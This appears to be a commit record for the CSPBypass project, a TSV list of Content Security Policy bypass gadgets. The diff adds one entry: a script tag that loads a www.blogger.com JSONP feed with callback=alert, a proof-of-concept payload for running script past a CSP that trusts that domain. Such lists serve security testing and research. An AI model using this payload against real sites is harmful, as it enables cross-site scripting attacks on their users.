

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added www.blogger.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 78: www.blogger.com | <script src="https://www.blogger.com/feeds/8063678697117239807/posts/default?callback=alert"></script>
```
